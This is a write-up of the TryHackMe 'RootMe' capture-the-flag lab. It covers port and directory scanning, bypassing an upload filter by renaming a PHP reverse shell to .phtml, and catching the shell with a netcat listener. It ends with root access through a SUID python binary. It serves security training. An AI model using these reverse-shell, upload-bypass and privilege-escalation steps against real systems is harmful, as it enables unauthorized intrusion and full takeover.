 # RootMe

**Tools: nmap, gobuster, netcat.**

### Task 1 — Deploy the machine
First step is connecting to the THM’s VPN through OpenVPN in your machine (for example, your Kali VM) or use the in-browser THM AttackBox. After that, just click on Start Machine to load the VM.

### Task 2 — Reconnaissance
Scan the machine, how many ports are open?  

I ran this nmap SYN scan to get the open ports and services’ versions from the target machine, in my case it had the IP 10.10.73.226:  
`nmap -n -sSV -Pn 10.10.73.226`

![RootMe](../Images/thm_rootme_2.png)

The scan shows that the ports 22 and 80 are open, so…  
`Answer: 2`

**What version of Apache is running?**  
As shown in the scan…  
`Answer: 2.4.29`

**What service is running on port 22?**  
Once again, as shown in the scan…  
`Answer: SSH`

**Find directories on the web server using the GoBuster tool.**  
*Hint: gobuster dir -u 10.10.73.226 -w WORDLIST_PATH*  
For this one you just need to click on the ‘Completed’.  

**What is the hidden directory?**  
I ran gobuster with the following command, to find the directories:  
`gobuster dir -u 10.10.73.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`

![RootMe](../Images/thm_rootme_3.png)

We got a few results right away, and upon testing them we get the right answer…  
`Answer: /panel/`

### Task 3 — Getting a Shell
**Find a form to upload and get a reverse shell, and find the flag.**  
*Hint: Search for “file upload bypass” and “PHP reverse shell”.* 
The file with the flag will be “user.txt”  
Upon accessing the /uploads/ directory, we see that it is empty. In the /panel/ directory, we see an upload form.  

![RootMe](../Images/thm_rootme_4.png)

I went to the following website to get the php reverse shell code (file):  
http://pentestmonkey.net/tools/web-shells/php-reverse-shell  
As shown in the instructions, you should download the file, extract it and change the following fields on the php-reverse-shell.php file, based on your host machine’s IP in the THM network, (in my case, 10.6.66.7), and your port of choice (you can leave the default port):  
```
$ip = ‘127.0.0.1’;  
$port = 1234;
```

If you try to upload the .php file, you’ll receive a “PHP not allowed” error. The solution is to upload a phtml file (“.phtml files tell the webserver that those are html files with dynamic content which is generated by the server… just like .php files in a browser behave. So, in productive usage you should experience no difference from .phtml to .php files.” - taken from a StackOverflow post), so you just need to change its extension.  
I uploaded the file and upon checking the /uploads/ directory, I’ve confirmed that it was successfully uploaded.  


![RootMe](../Images/thm_rootme_5.png)

Next thing, I started a Netcat listening session on my machine, waiting for the reverse shell to call back:  
`nc -vnlp 1234`

After that, just click on the file in the /uploads/ directory, so it runs the command, and you’ll get a shell on your terminal.

![RootMe](../Images/thm_rootme_6.png)

It’s a simple (dumb) shell, so we still need to upgrade it to a fully interactive shell. To do that, we can use the following Python pty module to spawn the shell:  
`python -c ‘import pty; pty.spawn(“/bin/bash”)’`

You should get the fully interactive shell right away.  
Running a “find / -name user.txt” command, we find the “user.txt” file at “/var/www/”, so we just need to “cat /var/www/” to grab the flag.  

### Task 4 — Privilege escalation
**Search for files with SUID permission, which file is weird?**  
*Hint: find / -user root -perm /4000*  
Next, we run the suggested command, but we redirect any error output to /dev/null, so we get a clearer result:  
`find / -user root -perm /4000 2> /dev/null`

Right away, we find a few options, so we can test some of them. Upon testing, we see that the Python file has the following permissions:

![RootMe](../Images/thm_rootme_7.png)

The file has the SUID and SGID permissions (the ‘s’ in the ‘execute’ fields of the permissions, instead of either ‘-’ or ‘x’). A file with SUID/SGID permissions will always execute as the user/group who owns the file. In this case, it’s root!  
`Answer: /usr/bin/python`

**Find a form to escalate your privileges.**  
*Hint: Search for gtfobins*  
Once again, you just need to click on the ‘Completed’.  

**root.txt**
As suggested previously, we took a look at [**GTFObins**](https://gtfobins.github.io/). More specifically, in the SUID section, Python row (click on the SUID box in this row). You’ll be redirected to [**here**](https://gtfobins.github.io/gtfobins/python/#suid). To get permanent root privileges, I ran the following command:  
`/usr/bin/python -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’`

![RootMe](../Images/thm_rootme_8.png)

Next up, we can search for the “root.txt” file:  
`find / -name root.txt`

![RootMe](../Images/thm_rootme_9.png)

And then we can finally read the file and get the last flag!  
`cat /root/root.txt`
